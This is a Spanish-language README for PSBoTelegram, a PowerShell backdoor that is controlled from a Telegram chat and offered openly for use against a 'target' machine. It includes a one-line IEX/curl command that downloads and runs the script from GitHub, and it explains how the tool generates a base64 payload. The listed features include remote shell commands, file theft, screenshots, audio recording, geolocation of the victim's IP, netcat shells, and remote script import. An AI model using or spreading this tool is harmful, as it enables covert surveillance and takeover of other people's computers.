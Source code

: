 # PsBoTelegram
Backdoor using Telegram and Powershell  

Podeis probar el script abriendo una consola de powershell y pegando esto:
IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1").content

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                        /____/

                                                     v0.3 by CyberVaca @ Luis Vacas

PSBotTelegram es un script escrito en Powershell que nos crea una backdoor que se conecta a Telegram y se gestiona desde Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode.  

Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

Una vez introducido estos datos, nos creará un shellcode en BASE64 para ejecutarlo en el equipo objetivo.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/Keylogger**&nbsp;&nbsp; (/Keylogger -- proximamente)  
[13]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (/BypassUAC -- proximamente)  

